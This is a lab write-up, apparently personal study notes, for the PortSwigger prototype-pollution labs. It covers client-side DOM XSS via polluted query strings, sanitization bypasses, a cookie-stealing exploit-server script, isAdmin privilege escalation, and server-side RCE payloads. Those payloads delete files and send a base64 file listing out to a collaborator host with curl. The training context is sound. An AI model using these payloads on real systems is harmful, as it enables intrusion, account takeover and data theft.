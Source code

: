
***Client-side prototype pollution via browser APIs***

From <https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis> 



Using Dom Invader. Kinda brain dead but useful in a fast scenario 

Enable DOM Invader and enable the prototype pollution option. 
Observe that DOM Invader has identified prototype pollution vectors in the search property i.e. the query string. 


Click Scan for gadgets. A new tab opens in which DOM Invader begins scanning for gadgets using the selected source. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4080c812-6765-40ce-96eb-b20b0d49580c)









Open up devtool panel and click exploit
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/765a7428-3134-4679-8505-7b98eb72604a)


Manual solution 
Finding a protype pollution source 
In your browser, try polluting Object.prototype by injecting an arbitrary property via the query string: 

```
/?__proto__[foo]=bar
```
Open the browser DevTools panel and go to the Console tab. 
Enter `Object.prototype`. 

Study the properties of the returned object and observe that your injected foo property has been added. You've successfully found a prototype pollution source. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b9d5b156-8a55-4e0d-a47a-cd70f93f092c)



Identify a gadget
In the browser DevTools panel, go to the Sources tab.

Study the JavaScript files that are loaded by the target site and look for any DOM XSS sinks.


In searchLoggerConfigurable.js, notice that if the config object has a transport_url property, this is used to dynamically append a script to the DOM.
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/1c956e6e-b823-4f80-8d98-bacfa3327c2e)




Observe that a transport_url property is defined for the config object, so this doesn't appear to be vulnerable. 


Observe that the next line uses the Object.defineProperty() method to make the transport_url unwritable and unconfigurable. However, notice that it doesn't define a value property.
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/35b28b76-285b-4762-be2f-b844b5f3b757)


Craft an exploit 

Using the prototype pollution source you identified earlier, try injecting an arbitrary value property: 
```
/?__proto__[value]=foo
``` 
In the browser DevTools panel, go to the Elements tab and study the HTML content of the page. Observe that a <script> element has been rendered on the page, with the src attribute foo. 
Modify the payload in the URL to inject an XSS proof-of-concept. For example, you can use a data: URL as follows: 
```
/?__proto__[value]=data:,alert(1);
``` 
Observe that the alert(1) is called and the lab is solved. 

From <https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/2793ffd8-bd79-4a15-b24d-40d17cb6dd2b)





***DOM XSS via client-side prototype pollution***

Manual solution


Find a protype pollution source 
```
/?__proto__[foo]=bar
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/59869378-3597-4130-acc6-0938ed68b3bc)






Identify a gadget 

In searchLogger.js, notice that if the config object has a transport_url property, this is used to dynamically append a script to the DOM. 


Notice that no transport_url property is defined for the config object. This is a potential gadget for controlling the src of the <script> element. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/662386b0-92c4-4791-905d-af4d771a68c2)



Craft an exploit


```
?__proto__[transport_url]=foo
```

In the browser DevTools panel, go to the Elements tab and study the HTML content of the page. Observe that a <script> element has been rendered on the page, with the src attribute foo. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4417a593-4899-4080-80cb-dcd70ef43331)




Modify the payload in the URL to inject an XSS proof-of-concept. For example, you can use a data: URL as follows: 

```
/?__proto__[transport_url]=data:,alert(1);
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d128d5fe-20a1-4d9a-aaf4-476b1991824d)





Dom xss method is same as previous (braindead)


***DOM XSS via an alternative prototype pollution vector***

From <https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-an-alternative-prototype-pollution-vector> 


DOM Invader solution

Exploit fail
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b795d874-8de6-4e56-b17d-841bbe62264d)


Go back to the previous browser tab and look at the eval() sink again in DOM Invader. Notice that following the closing canary string, a numeric 1 character has been appended to the payload. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a5ad6a95-0dfc-401d-827f-8e95487519a0)



• Click Exploit again. In the new tab that loads, append a minus character (-) to the URL and reload the page. 

```
?constructor[prototype][sequence]=alert%281%29&constructor.prototype.sequence=alert%281%29&__proto__.sequence=alert%281%29-&__proto__[sequence]=alert%281%29#constructor[prototype][sequence]=alert%281%29&constructor.prototype.sequence=alert%281%29&__proto__.sequence=alert%281%29&__proto__[sequence]=alert%281%29
```


Find a prototype pollution source 

Our usual method doesn’t work
```
?__proto__[foo]=bar
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d2bc26e2-81f5-4922-99ff-5f4b72f5cedb)



Back in the query string, try using an alternative prototype pollution vector: 
```
/?__proto__.foo=bar
``` 
In the console, enter Object.prototype again. Notice that it now has its own foo property with the value bar. You've successfully found a prototype pollution source. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/cf415d45-6342-4c74-85e8-298638df1301)


Identify a gadget 

Notice that there is an eval() sink in searchLoggerAlternative.js. 
Notice that the manager.sequence property is passed to eval(), but this isn't defined by default. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/9e4d4c1c-10d5-4425-aee3-cd7b3a30e86d)


Craft an exploit 

Our usual method
```
/?__proto__.sequence=alert(1)
```

payload doesn't execute and we trigger an error
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/1a27a9ae-b5f2-43f0-9aff-9b26d7883a06)




Click the line number to add a breakpoint to this line, then refresh the page. 
Hover the mouse over the manager.sequence reference and observe that its value is alert(1)1. This indicates that we have successfully passed our payload into the sink, but a numeric 1 character is being appended to it, resulting in invalid JavaScript syntax. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b256714b-66c9-4afd-9082-56a4600f2bae)






Add trailing minus character to the payload to fix up the final JavaScript syntax:

```
?__proto__.sequence=alert(1)-
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/12423de5-67e6-4e28-9e38-cd6911b8551f)



***Client-side prototype pollution via flawed sanitization***


• In your browser, try polluting Object.prototype by injecting an arbitrary property via the query string: 
```
/?__proto__.foo=bar
``` 

Study the properties of the returned object and observe that your injected foo property has not been added. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/1b8cf631-5610-4579-a695-5357cb62d26d)

From <https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization> 





Trying alternative vector produce same result
```
/?__proto__[foo]=bar 
/?constructor.prototype.foo=bar
```


Go to the Sources tab and study the JavaScript files that are loaded by the target site. Notice that deparamSanitized.js uses the sanitizeKey() function defined in searchLoggerFiltered.js to strip potentially dangerous property keys based on a blocklist. However, it does not apply this filter recursively.

From <https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanit
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b0459ca4-f397-4e9c-a3c3-3bb882d8181c)





• Back in the URL, try injecting one of the blocked keys in such a way that the dangerous key remains following the sanitization process. For example: 
```
• /?__pro__proto__to__[foo]=bar
•  /?__pro__proto__to__.foo=bar 
• /?constconstructorructor[protoprototypetype][foo]=bar 
• /?constconstructorructor.protoprototypetype.foo=bar
``` 

In the console, enter Object.prototype again. Notice that it now has its own foo property with the value bar. You've successfully found a prototype pollution source and bypassed the website's key sanitization.
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4be97419-e1c7-4519-b55c-7fab9f7ad45c)


Identify a gadget

Study the JavaScript files again and notice that searchLogger.js dynamically appends a script to the DOM using the config object's transport_url property if present. 
Notice that no transport_url property is set for the config object. This is a potential gadget. 

From <https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6d8a1a08-8668-427a-81aa-4ffb83087c61)




Craft an exploit 
```
/?__pro__proto__to__[transport_url]=foo
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3391753f-3981-4444-a428-4e54fe83fa95)




```
/?__pro__proto__to__[transport_url]=data:,alert(1);
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/5801a8dd-42db-4d98-844f-4d85271bb561)



Using dom invader you can try the same thing just remember to bypass the sanitization process

***Client-side prototype pollution in third-party libraries***

Scan using DOM invader

Exploit created by dom invader

```
?constructor[prototype][hitCallback]=alert%281%29&constructor.prototype.hitCallback=alert%281%29&__proto__.hitCallback=alert%281%29&__proto__[hitCallback]=alert%281%29#constructor[prototype][hitCallback]=alert%281%29&constructor.prototype.hitCallback=alert%281%29&__proto__.hitCallback=alert%281%29&__proto__[hitCallback]=alert%281%29
```



Disable DOM Invader. 


In the browser, go to the lab's exploit server. 
In the Body section, craft an exploit that will navigate the victim to a malicious URL as follows: 





```
<script>location=https://YOUR-LAB-ID.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29</script>
``` 








Test the exploit on yourself, making sure that you're navigated to the lab's home page and that the alert(document.cookie) payload is triggered. 
Go back to the exploit server and deliver the exploit to the victim to solve the lab. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/aa742241-573b-401f-b0f1-770cd03825be)




View exploit work than deliver to victim


**Privilege escalation via server-side prototype pollution**

From <https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution> 

Log in and submit form to change address 
Request is returned in json 
Identify a protype pollution source 

Add a new __proto__ 

```
"__proto__": {
    "foo":"bar"
}
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f35a7cf1-25b6-4f56-b90c-3f9943b19d7e)

Notice that the object in the response now includes the arbitrary property that you injected, but no **__proto__** property. This strongly suggests that you have successfully polluted the object's prototype and that your property has been inherited via the prototype chain. 





Notice a isAdmin property set to false in first response. 



Modify the request to try polluting the prototype with your own isAdmin property: 

```
"__proto__": {
    "isAdmin":true
}
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c2d9f6bb-eb8e-4bec-bb02-999c24c9e0d1)



We are now admin
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/601cde2e-5cb7-4f31-adba-6cd95c8d9da5)



**Detecting server-side prototype pollution without polluted property reflection**

Entering our payload from last lab doesn't show any reflection but that doesn’t mean we don’t have prototype pollution

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/aa4e7521-71c7-43de-b5a0-2348114e384c)



When we remove the comma to get an error it shoes that our foo is reflected
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3be8ba3b-2404-4596-9836-00cbe983dcb6)


We also get a 500 error with a 400 status property 

Fix the JSON syntax by reversing the changes that triggered the error. 
Modify your injected property to try polluting the prototype with your own distinct status property. Remember that this must be between 400 and 599. 

```
"__proto__": {
    "status":555
}
```

Intentionally break the JSON syntax again and reissue the request. 
Notice that this time, although you triggered the same error, the status and statusCode properties in the JSON response match the arbitrary error code that you injected into Object.prototype. This strongly suggests that you have successfully polluted the prototype and the lab is solved. 

From <https://portswigger.net/web-security/prototype-pollution/server-side/lab-detecting-server-side-prototype-pollution-without-polluted-property-reflection> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/dd40f90e-d5f9-42b8-8eec-654dd4b83a8b)


**Bypassing flawed input filters for server-side prototype pollution**

From <https://portswigger.net/web-security/prototype-pollution/server-side/lab-bypassing-flawed-input-filters-for-server-side-prototype-pollution> 

Sign in and notice that we get address change response in json like previous
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/89dba6cd-4346-4298-98ae-0ed4a97a4431)



Identify a prototype pollution source

In Repeater, add a new property to the JSON with the name __proto__, containing an object with a json spaces property. 

```
"__proto__": {
    "json spaces":10
}
```

In the Response panel, switch to the Raw tab. Observe that the JSON indentation appears to be unaffected. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f6969bc6-e5e4-4842-ab7f-baa2bf158b5d)



Modify the request to try polluting the prototype via the constructor property instead: 
Response panel, go to the Raw tab. This time, notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype. 

```
"constructor": {
    "prototype": {
        "json spaces":10
    }
}
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/34f3fce9-bd24-4a20-80c2-f576ed1d10b9)

Identify a gadget
Notice the isAdmin property, which is currently set to false. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7581e476-67ea-49a5-9e25-b88386ed4802)

Modify the request to try polluting the prototype with your own isAdmin property: 

```
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```
We now have admin access

**Remote code execution via server-side prototype pollution**

Same as previous without constructor 
```
"__proto__": { "
json spaces":10 
}
```





Our exploit 

To probe with collaborator server 

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```


To execute remote code execution 

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/717370a7-7815-4130-ad8a-ef69b5560772)


• Go back to the admin panel and trigger the maintenance jobs again. Carlos's file is deleted and the lab is solved. 

From <https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d0ba8b8a-4e4b-4ade-bed3-1cee6e9b35fd)

**Exfiltrating sensitive data via server-side prototype pollution**

From <https://portswigger.net/web-security/prototype-pollution/server-side/lab-exfiltrating-sensitive-data-via-server-side-prototype-pollution> 


Require collaborator but the gist is the same

Identify a prototype pollution source

```
"__proto__": {
    "json spaces":10
}
```

Probe for remote code execution

```
"__proto__": {
    "shell":"vim",
    "input":":! curl https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

Leak the hidden file name
```
"input":":! ls /home/carlos | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```

• Notice that you have received a new HTTP POST request with a Base64-encoded body. 
• Decode the contents of the body to reveal the names of two entries: node_apps and secret. 





